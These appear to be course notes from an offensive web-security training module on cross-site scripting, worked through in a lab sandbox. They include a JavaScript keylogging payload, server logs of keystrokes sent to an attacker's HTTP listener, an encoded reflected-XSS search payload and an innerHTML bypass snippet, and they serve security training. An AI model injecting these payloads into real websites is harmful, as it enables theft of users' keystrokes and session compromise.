# Module 5: Cross-Site Scripting Introduction and Discovery

## Introduction to the Sandbox

### Accessing the Sandbox

_Start the VPN and start the VM. Add the IP to hosts file._

### Understanding the Sandbox

_Explaining the sandbox webpage._

## JavaScript Basics for Offensive Uses

### Syntax Overview

_Function example_


```javascript
01  function processData(data) {
02    data.items.forEach(item => {
03      console.log(item)
04    });
05  }
06
07  let foo = {
08    items: [
09      "Hello",
10      "Zdravo",
11      "Hola"
12    ]
13  }
14
15  processData(foo)
```


### Useful APIs

<figure><figcaption><p><em>Logging inputs</em></p></figcaption></figure>

<figure><figcaption><p>logKey function</p></figcaption></figure>

<figure><figcaption><p>Capturing Key stroke</p></figcaption></figure>

<figure><figcaption><p>Typing into Eval</p></figcaption></figure>

_Starting HTTP listener_

```bash
kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

<figure><figcaption><p>Using fetch</p></figcaption></figure>

_HTTP Server Log_

```bash
kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.16.174.4 - - [11/Aug/2021 19:15:53] "GET /hello HTTP/1.1" 404 -
```

_Original Keylogging Payload_

```javascript
function logKey(event){
	console.log(event.key)
}

document.addEventListener('keydown', logKey);
```

<figure><figcaption><p>Sending keystrokes back</p></figcaption></figure>

_HTTP Server Log_


```bash
...
192.168.121.101 - - [11/Aug/2021 19:23:39] "GET /k?key=I HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:39] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:39] "GET /k?key= HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:39] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:39] "GET /k?key=l HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:40] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:40] "GET /k?key=i HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:40] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:40] "GET /k?key=k HTTP/1.1" 404 -
192.168.121.101 - - [11/Aug/2021 19:23:40] code 404, message File not found
192.168.121.101 - - [11/Aug/2021 19:23:40] "GET /k?key=e HTTP/1.1" 404 -
...
```


## Cross-Site Scripting - Discovery

### Reflected Server XSS

_Often found in locations where user input is sent via GET parameters._

<figure><figcaption><p>Searchin for "offsec"</p></figcaption></figure>

<figure><figcaption><p>Inspecting "offsec"</p></figcaption></figure>

_It's inside a \<div> tag, it may be vulnerable. Testing with HTML injection has less potential for error — this doesn't always mean we can inject JavaScript but is a great indicator._

<figure><figcaption><p>Injecting HTML to Search</p></figcaption></figure>

<figure><figcaption><p>Search Alert box</p></figcaption></figure>

_Encoded search payload_

<pre class="language-uri"><code class="lang-uri"><strong>search.php?s=%3Cscript%3Ealert(0)%3C/script%3E
</strong></code></pre>

<figure><figcaption><p>XSS rendered on Victim - Search</p></figcaption></figure>

<figure><figcaption><p>Reviewing HTTP Response in Burp Suite</p></figcaption></figure>

### Stored Server XSS

<figure><figcaption><p>Leaving a comment</p></figcaption></figure>

<figure><figcaption><p>Blog Comment Inspection</p></figcaption></figure>

<figure><figcaption><p>Sanitized Comment</p></figcaption></figure>

<figure><figcaption><p>Inspecting Sanitized Comment</p></figcaption></figure>

<figure><figcaption><p>Raw HTML of Comment</p></figcaption></figure>

<figure><figcaption><p>H1 in Username</p></figcaption></figure>

<figure><figcaption><p>Rendered H1</p></figcaption></figure>

<figure><figcaption><p>XSS payload in Blog Comment</p></figcaption></figure>

<figure><figcaption><p>Executing XSS Payload using Target User Browser</p></figcaption></figure>

### Reflected Client XSS

<figure><figcaption><p>Survey Home Page</p></figcaption></figure>

<figure><figcaption><p>Survey HTML Injection</p></figcaption></figure>

<figure><figcaption><p>Finding Request in the Network Tools</p></figcaption></figure>

<figure><figcaption><p>Viewing the Response Payload</p></figcaption></figure>

<figure><figcaption><p>Reviewing Survey.js</p></figcaption></figure>

<figure><figcaption><p>Payload not executing in Client XSS</p></figcaption></figure>

<figure><figcaption><p>Reviewing Injection Point</p></figcaption></figure>

_Mozilla's innerHTML Bypass_

```markup
const name = "";
el.innerHTML = name; // shows the alert
```

<figure><figcaption><p>Exploiting with Mozilla's Bypass</p></figcaption></figure>

### Stored Client XSS

<figure><figcaption><p>Summary of Answers</p></figcaption></figure>

<figure><figcaption><p>HTML in Survey</p></figcaption></figure>

<figure><figcaption><p>Rendered HTML in Survey</p></figcaption></figure>

<figure><figcaption><p>XSS Payload in Survey</p></figcaption></figure>

